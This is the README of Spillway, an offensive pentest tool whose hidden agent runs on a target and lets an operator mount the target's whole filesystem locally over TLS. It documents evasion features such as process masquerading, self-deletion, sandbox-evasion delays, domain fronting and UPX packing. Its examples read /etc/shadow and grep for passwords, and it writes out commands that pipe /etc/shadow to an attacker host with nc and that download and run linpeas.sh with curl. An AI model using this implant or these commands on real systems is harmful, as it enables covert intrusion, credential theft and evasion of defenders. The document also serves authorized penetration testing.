

<div align="center">



# Spillway

[](https://go.dev/dl/)
[](LICENSE)
[](internal/)
[]()

Spillway is a reverse/bind FUSE filesystem mount for penetration testing. Deploy a small agent on the target, mount its entire filesystem locally via FUSE, and browse with standard tools — over TLS 1.3 with mutual PSK authentication. Think of it as SSHFS without SSH, built for offense.

</div>

---

## Table of Contents

- [Highlights](#highlights)
- [Quick Start](#quick-start)
- [Architecture](#architecture)
- [Tech Stack](#tech-stack)
- [Operations](#operations)
- [Security](#security)
- [Configuration](#configuration)
- [Example Output](#example-output)
- [Without vs With](#without-vs-with)
- [Testing](#testing)
- [Contributing](#contributing)

---

## Highlights

<table>
<tr>
<td width="50%">

### Reverse & Bind

Agent calls back to your listener (reverse) or listens for your connection (bind). Both modes over TLS 1.3 with optional certificate fingerprint pinning.

</td>
<td width="50%">

### Full FUSE Mount

Real mountpoint on your machine. Use ls, cat, cp, grep, find, vim — any tool that reads files works transparently against the remote filesystem.

</td>
</tr>
<tr>
<td width="50%">

### Mutual PSK Auth

Two-round HMAC-SHA256 challenge-response authentication. Both sides prove key possession before any filesystem operations begin.

</td>
<td width="50%">

### Static Binary

CGO_ENABLED=0, zero external dependencies on the agent. Single binary, cross-compiled for linux/windows/darwin on amd64/arm64.

</td>
</tr>
<tr>
<td width="50%">

### Opsec Hardened

Process masquerade, core dump prevention, self-delete, stdout/stderr silencing. All configuration baked at compile time — zero runtime args.

</td>
<td width="50%">

### Path Jailing

Symlink-aware path resolution with configurable exclude lists. Agent resolves all symlinks before checking jail boundaries — no escape via `..` or symlinks.

</td>
</tr>
<tr>
<td width="50%">

### Proxy Support

HTTP CONNECT proxy tunneling with optional Basic auth. Reach targets through corporate proxies with automatic buffered connection handling.

</td>
<td width="50%">

### Rate Limiting

Token bucket rate limiter controls outbound bandwidth. Blend into normal traffic patterns during long-running operations.

</td>
</tr>
</table>

---

## Quick Start

### Prerequisites

| Requirement | Version |
|-------------|---------|
| Go | >= 1.22 |
| FUSE | libfuse / macFUSE (listener only) |
| Platform | Linux, macOS (listener) / Linux, Windows, macOS (agent) |

### Build

```bash
# Clone
git clone https://github.com/Real-Fruit-Snacks/Spillway.git
cd Spillway

# Build listener
make listener

# Build agent — reverse mode (PSK auto-generated)
./build.sh reverse 10.10.14.5:443

# Build agent — bind mode
./build.sh bind 0.0.0.0:8443

# Build all 5 platforms at once
./build.sh reverse 10.10.14.5:443 --all
```

```bash
# Reverse mode — listener waits for agent callback
./bin/spillway listen --port 443 --mount ./target --key $(cat .psk)

# Deploy agent on target, then browse:
ls ./target/
cat ./target/etc/shadow
grep -r "password" ./target/etc/
find ./target/ -perm -4000

# Bind mode — connect to listening agent
./bin/spillway connect TARGET:8443 --mount ./target --key <PSK>

# Check active sessions
./bin/spillway status

# Clean unmount
./bin/spillway unmount ./target
```

### Development

```bash
go test ./...                  # All tests
go test -tags agent ./...      # Agent-side tests
go test -race ./...            # Race detector
go vet ./...                   # Static analysis
golangci-lint run ./...        # Full lint suite
```

---

## Architecture

Spillway is a pure Go tool with minimal dependencies. The agent uses only stdlib + `x/sys`. The listener adds `bazil.org/fuse` for FUSE integration.

```
Spillway/
├── cmd/spillway/
│   ├── main.go               # Entry point, mode dispatch
│   ├── config.go             # Compile-time config vars (ldflags)
│   ├── agent_run.go          # Agent mode (//go:build agent)
│   └── listener_run.go       # Listener CLI (//go:build !agent)
├── internal/
│   ├── protocol/
│   │   ├── protocol.go       # Message types, version, constants
│   │   ├── messages.go       # Binary marshal/unmarshal, wire format
│   │   └── errors.go         # Protocol errors, errno mapping
│   ├── transport/
│   │   ├── conn.go           # FramedConn (length-prefixed I/O)
│   │   ├── tls.go            # TLS 1.3 config, PSK auth, cert pinning
│   │   ├── multiplex.go      # ClientMux + ServerMux (request/response)
│   │   └── proxy.go          # HTTP CONNECT proxy tunneling
│   ├── agent/
│   │   ├── agent.go          # Agent main loop, reconnect logic
│   │   ├── fsops.go          # 17 filesystem operation handlers
│   │   ├── pathjail.go       # Path resolution, symlink jail, excludes
│   │   ├── ratelimit.go      # Token bucket rate limiter
│   │   ├── opsec.go          # Process masquerade, core dumps, self-delete
│   │   ├── opsec_{linux,darwin,windows,other}.go  # Platform-specific opsec
│   │   ├── selfsigned.go     # Ephemeral ECDSA self-signed certificate
│   │   ├── sysstat_{linux,darwin,other}.go        # Platform uid/gid extraction
│   │   ├── statfs_{linux,windows,other}.go        # Platform filesystem stats
│   │   └── xattr_{unix,other}.go                  # Platform xattr support
│   ├── fuse/
│   │   ├── bridge.go         # Bridge interface (FUSE ↔ session)
│   │   ├── fs.go             # FUSE FS root, error mapping
│   │   ├── dir.go            # Directory node (Lookup, ReadDirAll)
│   │   ├── file.go           # File node (Read, Write, Readlink)
│   │   └── mount.go          # Mount/unmount, signal handling
│   ├── listener/
│   │   ├── listener.go       # Connection accept, session lifecycle
│   │   └── session.go        # Bridge impl, cache integration
│   ├── cache/
│   │   └── cache.go          # TTL cache (stat 5s, dir 5s)
│   └── config/
│       └── config.go         # Shared configuration types
├── build.sh                  # Agent build orchestrator
├── Makefile                  # Build targets
└── docs/
    ├── index.html            # GitHub Pages site
    └── favicon.svg           # Site favicon
```

### Execution Flow

| Phase | Description |
|-------|-------------|
| 1. Build | `build.sh` injects config via `-ldflags -X`, cross-compiles static binary |
| 2. Deploy | Agent binary transferred to target (zero args, zero config files) |
| 3. Opsec | Agent masquerades process, disables core dumps, optionally self-deletes |
| 4. Connect | Reverse: agent dials listener with jittered backoff. Bind: agent listens |
| 5. Auth | TLS 1.3 handshake, then 2-round HMAC-SHA256 PSK mutual authentication |
| 6. Mux | ClientMux (listener) and ServerMux (agent) multiplex requests over single conn |
| 7. Mount | Listener creates FUSE mount, FUSE kernel calls route through ClientMux |
| 8. Operate | ls/cat/grep on mountpoint → FUSE → ClientMux → agent → filesystem → response |

### Concurrency Model

| Component | Workers | Purpose |
|-----------|---------|---------|
| ServerMux worker pool | 64 | Parallel filesystem operations on agent |
| ClientMux inflight | 64 | Concurrent FUSE requests from listener |
| Reader goroutine | 1 | Deserialize incoming frames (each side) |
| Writer goroutine | 1 | Serialize outgoing frames (each side) |
| Cache evictor | 1 | Background TTL eviction every 30s |

---

## Tech Stack

| Layer | Technology |
|-------|------------|
| **Language** | Go 1.22+ |
| **Agent deps** | stdlib + `golang.org/x/sys` (zero external) |
| **Listener deps** | `bazil.org/fuse` |
| **Protocol** | Custom binary ([4B len][1B type][4B id][payload]) |
| **Encryption** | TLS 1.3 (self-signed, optional fingerprint pinning) |
| **Auth** | HMAC-SHA256 PSK (2-round challenge-response) |
| **Multiplexing** | Single-connection request/response mux |
| **Caching** | TTL cache (stat/dir, 5s expiry, 30s eviction) |
| **Colors** | Catppuccin Mocha (24-bit true color) |
| **Build** | `CGO_ENABLED=0`, `-trimpath`, `-tags agent` |

---

## Operations

| Operation | Request Type | Description |
|-----------|-------------|-------------|
| Stat | `MsgStat` | File/directory metadata (size, mode, timestamps, uid/gid) |
| ReadDir | `MsgReadDir` | Directory listing with entry types and modes |
| ReadFile | `MsgReadFile` | Partial file read (offset + size) |
| ReadLink | `MsgReadLink` | Symlink target resolution |
| WriteFile | `MsgWriteFile` | Write data at offset |
| Create | `MsgCreate` | Create new file with mode |
| Mkdir | `MsgMkdir` | Create directory |
| Remove | `MsgRemove` | Delete file or empty directory |
| Rename | `MsgRename` | Move/rename file or directory |
| Chmod | `MsgChmod` | Change file permissions |
| Truncate | `MsgTruncate` | Truncate file to size |
| GetXattr | `MsgGetXattr` | Read extended attribute by name |
| ListXattr | `MsgListXattr` | List extended attribute names |
| Chown | `MsgChown` | Change file ownership (uid/gid) |
| Symlink | `MsgSymlink` | Create symbolic link |
| Link | `MsgLink` | Create hard link |
| Statfs | `MsgStatfs` | Filesystem statistics (total/free/avail) |

---

## Security

| Principle | Implementation |
|-----------|----------------|
| **Encrypted channel** | TLS 1.3 with ephemeral keys, optional certificate fingerprint pinning |
| **Mutual auth** | HMAC-SHA256 PSK — both sides prove possession via challenge-response |
| **Empty PSK rejected** | Auth functions refuse zero-length keys |
| **Path jailing** | All paths resolved through `filepath.EvalSymlinks` + prefix check |
| **Symlink aware** | Symlinks resolved before jail boundary check — no escape via indirection |
| **Exclude lists** | Configurable path prefixes excluded from access (e.g., `/proc`, `/sys`) |
| **Frame size cap** | 16 MiB maximum frame size prevents memory exhaustion |
| **Allocation guards** | Array/string lengths validated before allocation |
| **No disk writes** | Agent never writes to disk (all config in memory from ldflags) |
| **Opsec hardening** | Core dumps disabled, process masquerade, optional self-delete |

---

## Configuration

All agent configuration is injected at compile time via `-ldflags -X`. The agent binary takes zero arguments and exposes nothing in process listings.

| Category | Build Flags | Description |
|----------|-------------|-------------|
| Mode | `reverse` / `bind` | Connection direction (positional arg) |
| Address | `HOST:PORT` | Listener address or bind address (positional arg) |
| Auth | `--key KEY` | Pre-shared key (base64), auto-generated if omitted |
| TLS | `--sni HOST` | SNI hostname for domain fronting (random from pool) |
| Filesystem | `--root PATH` | Agent filesystem root (default: `/`) |
| Exclusions | `--exclude PATHS` | Comma-separated path prefixes to hide |
| Permissions | `--read-only` | Reject all write operations |
| Opsec | `--procname NAME` | Process name masquerade (OS-aware default) |
| Opsec | `--self-delete` | Delete binary after execution |
| Opsec | `--delay N` | Startup delay in seconds (sandbox evasion, max 3600) |
| Network | `--proxy ADDR` | HTTP CONNECT proxy address |
| Network | `--rate-limit N` | Outbound bandwidth limit (tokens/sec) |
| Network | `--rate-burst N` | Rate limit burst size |
| Network | `--proxy-user USER` | Proxy username (Basic auth) |
| Network | `--proxy-pass PASS` | Proxy password (Basic auth) |
| Platform | `--os OS` | Target OS (linux/windows/darwin) |
| Platform | `--arch ARCH` | Target architecture (amd64/arm64) |
| Build | `--all` | Build all 5 platform combinations |
| Build | `--compress` | UPX compress the binary |
| Build | `--dry-run` | Preview build command without executing |
| Build | `--show-key` | Display PSK in build summary |

---

## Example Output

### Build

```
-- Spillway Agent Build ----------------------------------------

  Binary:  bin/spillway-agent-linux-amd64
  Size:    3.8M
  SHA256:  a1b2c3d4e5f6...
  OS/Arch: linux/amd64
  Mode:    reverse
  Address: 10.10.14.5:443
  PSK:     <hidden>
  SNI:     cdn.cloudflare.com

[+] Built bin/spillway-agent-linux-amd64

Listener command:
  ./bin/spillway listen --port 443 --mount ./target --key <hidden>
```

### Listener

```
[*] Listening on :443
[*] Mount point: ./target
[+] Agent connected from 10.129.2.47:51234
[+] Mounted at ./target
```

### Mounted Filesystem

```bash
$ ls ./target/etc/
crontab  group  hostname  hosts  passwd  shadow  ssh/

$ cat ./target/etc/shadow
root:$6$rounds=65536$salt$hash...:19000:0:99999:7:::

$ find ./target/home -name "*.txt"
./target/home/admin/notes.txt
./target/home/admin/.ssh/authorized_keys

$ grep -r "password" ./target/var/www/ 2>/dev/null
./target/var/www/html/config.php:$db_password = "hunter2";
```

---

## Without vs With

### Without Spillway

```bash
# Download files one at a time
scp user@target:/etc/shadow ./
base64 /etc/shadow | nc 10.10.14.5 9001

# Search requires remote execution
ssh user@target "find / -name '*.conf' 2>/dev/null"
ssh user@target "grep -r password /etc/ 2>/dev/null"

# Upload tools for enumeration
curl http://10.10.14.5/linpeas.sh | sh

# Repeat for every file, every directory...
```

### With Spillway

```bash
# Mount once, browse everything
ls ./target/
cat ./target/etc/shadow
grep -r "password" ./target/etc/
find ./target/ -perm -4000
cp ./target/var/backups/db.sql .

# Use ANY local tool — file managers, hex editors, diff
vimdiff ./target/etc/passwd ./target/etc/shadow
strings ./target/opt/app/binary | grep -i key
```

---

## Testing

```bash
go test ./...                  # All 122 tests
go test -tags agent ./...      # Agent-side tests
go test -race ./...            # Race detector
go vet ./...                   # Static analysis
go vet -tags agent ./...       # Agent vet
golangci-lint run ./...        # Full lint
make test                      # Makefile target
```

---

## Contributing

1. Fork the repository
2. Create a feature branch
3. Make changes
4. Run `go test -race ./... && golangci-lint run ./...` — both must pass
5. Commit with descriptive message
6. Open a Pull Request

- Go 1.22+ with `gofmt` formatting
- Catppuccin Mocha color palette for all terminal output
- Agent binary must remain CGO_ENABLED=0 with zero external deps
- All agent config via `-ldflags -X` — no runtime args or env vars

---

<div align="center">

**Built for offense. Encrypted by default.**

[GitHub](https://github.com/Real-Fruit-Snacks/Spillway) | [License (MIT)](LICENSE) | [Report Issue](https://github.com/Real-Fruit-Snacks/Spillway/issues)

*Spillway — reverse/bind FUSE filesystem mount*

</div>
